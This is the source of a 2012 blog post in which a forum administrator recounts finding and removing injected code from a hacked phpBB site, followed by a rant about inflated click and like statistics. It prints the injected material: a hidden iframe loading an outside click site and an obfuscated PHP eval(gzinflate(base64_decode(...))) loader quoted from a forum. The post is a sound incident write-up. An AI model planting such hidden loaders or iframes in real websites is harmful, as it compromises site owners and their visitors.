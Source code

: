 ```yaml
---
layout: post
title: "On clicks, likes, and impressions..."
date: 2012-09-27 23:34
comments: true
categories: [agalmic, rants, security, talknightlife, randomness]
sharing: true 
---
```


{% img center https://s3.amazonaws.com/dvblog/sneakz.png 960 472 'cURL' %}

Every so often, websites are hacked. Sometimes it's bad, sometimes it's harmless. The usual goal is to infect a viewer's computer with malware, perhaps to join a botnet or something to that effect. Though the ones that fall under the category of "harmless", are actually quite annoying. They are usually trying to drum up clicks, likes, and impressions on a specific site. 

And this, ladies and germs, is why the statistics on clicks, likes, and impressions is such a skewed game these days. You can't trust them...

<!-- more -->

Why not?

Well, case in point. TNL was hacked a few days ago. It happens sometimes. The webhost, <a href="http://dreamhost.com/">Dreamhost</a> for TNL is known far and wide for it's cheap and bargain-basement hosting. And they pretty much give you unlimited everything for a few dollars a month. Now, they usually don't add scads of hardware to their clusters to do this, but they subdivide what they already have, much like a cheap motel. With all this subdividing comes a lot of issues, most notably the ability for hackers and script kids to "peer over the walls", as it were, and observe what else is going on on a given server. TNL resides on a shared host, with hundreds of other sites. TNL in and of itself is secure, but it's hard for us to enforce the security when the walls built by the host are not secure, and we do not have the permission to reinforce those walls. 

So, people invariably get in.

I first noticed something was amiss when I could not login to the forum's administrative control panel. Well, I could login, but the page failed to render properly. I then noticed some suspicious redirects going on in my browser's status bar. The redirects were pointing towards a site called "clickspro.org". Now, since I helped build TNL, I know each and every aspect of it's functionality. And, clickspro.org was not part of that functionality. Plus, Ryan would not have implemented something new on TNL, since he is not really paid to do that, and if he did, he would have notified me, especially considering it's been over three years since TNL has explicitly seen any new features. 

So, I started a little investigating.

__Disclaimer: I am not a real computer security expert. I just know things and get by with a little help from my friends. I assume no liability for what is below. Posting this to help the community. YMMV. Thanks!__

Random things of this nature have happened before, and usually the culprit is a line or two of code that is inserted at the top of a page. This code typically points to malware, but in this case, it didn't. I used the UNIX tool "cURL" to investigate. cURL will render an HTML document in your Terminal window at the code level. cURL is basically a command-line browser. 

{% codeblock %}
podbookair:podpress pod$ curl http://forum.talknightlife.com/adm/index.php?sid=1c88841aa35bdee4c5aafca116f06513
{% endcodeblock %}

This rendered the admin control panel for TNL in it's raw HTML format. Therein, I spotted the offending code:

{% codeblock %}
<iframe width="10" height="10" style="visibility:hidden;position:absolute;left:0;top:0;" src="http://click.clickspro.org/feed/frames.php?uid=56&frames=3"></iframe>
{% endcodeblock %}

That does not belong. 

So, I Googled various iterations of the offending code. This turned out to be a fairly new attack that PHP-based web applications were falling victim to, and not much was known about it other than it being benign and not malicious in intent. 

I had an email exchange with Ryan on the subject, and he suggested it was involving Javascript. As it was late, the conversation kind of ended there. TNL was still functioning, but I was locked out of the cockpit, as it were. 

The next day I chose to follow his line of reasoning. I looked around for Javascript files that did not belong. TNL is a complex, poorly-documented machine. Our fault, but it is what it is. I didn't find anything of note. The only Javascript files were legit, and needed for the operation of TNL. 

I got back to Google. I found a random forum posting on the subject at that point, over on the <a href="http://community.mybb.com/thread-126714-post-917538.html#pid917538">support site for MyBB</a>, which is a cousin of phpBB, the software that drives TNL. 

{% blockquote adormind http://community.mybb.com/thread-126714-post-917538.html#pid91753 unknown iframe on index page, Site redirecting to other from mobile %}

Same here, damn idiot hacker writes into my WordPress index.php files these lines 

{% endblockquote %}

{% codeblock %}
<?php 

eval(gzinflate(base64_decode('7L0HYBxJliUmL23Ke39K9UrX4HShCI

BgEyTYkEAQ7MGIzeaS7B1pRyMpqyqBymVWZV1mFkDM7Z28995777333nvvvf

e6O51OJ/ff/z9cZmQBbPbOStrJniGAqsgfP358Hz8iivN063ctmiZvt36387

a8c+cXpxdlNcnKFH8e4p/Pdg9/4+THfiyv66r+/et8VdVtsbzY2rnDH6/qYt

luffy4OK+zRZ5eFbN2/tlHuzsfpfO8uJi38nvTXpf5Zx9dFk0xKcqivX40L2

azfHm4qpqiLarlo2zSVOW6zQ/L/Lx9tHPYViv6l96sp599NG/b1aO7d6dlMX

075n+bVV2Nq/ri7nmez+5y3814NV/9Huti9tn9T3+hfPLZvY+OHt8V1I4+Bs

K/5DdO/p8AAAD//w==')));?>

{% endcodeblock %}

Basically, it seems that it is possible to execute a Javascript function, and obfuscate it through base64. I'm not the best at security, but I remembered base64 from my USENET days, where files were encoded in that manner to facilitate speedy transmission and also ensure a modicum of obscurity. In a nutshell, USENET kids transferred porn this way to keep it on the down-low. If you don't know what USENET is, Google it.

So, with this knowledge, I looked at some of our PHP files. I was SSHed into TNL directly, and used nano, a basic text editor, to view the offending files.
{% codeblock %}
hawks:~/talknightlife.com/forum> nano index.php
{% endcodeblock %}

{% img center https://s3.amazonaws.com/dvblog/score.png 960 480 'Score!' %}

That garbage up top is the base64-encoded Javascript which was causing my issue. Deleted it. Saved, and my ACP functionality was restored.

TNL continues on as normal. Happiness is restored to the gossip shop. Thanks to Ryan for pointing me in the right direction.

What mystifies me though, and I'm finally getting to the point of this rant, is that to implement this, it took some doing. This wasn't a ten-second hack. Some damn kid in Manila took probably about a half-hour or more to do this, all for the sake of putting a script on TNL which would generate only a few random clicks to some weird website elsewhere.

A lot of effort, for little return. Clicks, likes, and impressions. It's all a bullshit game. Your site has 100000 hits. So what? How does that convert to something tangible? If it's an ecommerce site, are people buying anything? If it's a site based on content, are people reading it? What is the meaningful metric? Oh, you have 100000 fans on Facebook? So? You only know their names, if that! Facebook took away the ability to easily browse your fanbase years ago. That number is equally meaningless. And now you have to pay Facebook to broadcast your message to all of them. Which is good for Facebook, but not-so-good for you. Statistics on web properties are always hideously inflated. To be impressed by those numbers is foolish. I would rather have 1000 people who really are engaged by my content and my product, than 50000 people who only clicked because they were told to, or if those clicks were the result of a script. 

It's sad that people actually pay for this sort of thing. It's why my tactic with regards to web properties I don't explicitly own or have control over is to get people off them as fast as possible. I'll use social media to my advantage, but my final tactic is to get people off of the social media network, and right where I can get at them one-on-one, i.e. on this very blog, or over on TNL. For the record I don't harvest emails for marketing or spam. I tend to let people contact me. I value the interaction bought about by someone who is genuinely interested in what I am saying or selling. I'd rather have that one loyal follower who will stay with me through the years because I treat them right and with respect, rather than as a commodity. I guess I'm the boutique shopkeeper with the little store off to your right, rather than the Wal-Mart. I don't play the stats game. I've opted out. I get a few score viewers here on a daily basis. But I know them, or at least of them. We have a dialog, a real relationship. Not a bunch of meaningless egocentric clicks and likes. 

Besides, my real followers, when they do choose or need to do business with me, pay real money. The pennies from clicks and likes may add up over time, but the methodology is dishonest and distasteful. And, even if I didn't find it so, it's really annoying.

Give me the real data and content. 

And to the kid in Manila? Sorry about that. I know you're just doing your job, and it's better than the alternative of street prostitution, but I have to look after my interests. If I could pay it forward, I would. Maybe I am, by doing my little part in kicking down the clicks conspiracy. 

Sidebar: If you are here searching for the solution to the jsunpack base64 clickspro problem, welcome! Take a look around after you are done fixing your systems.





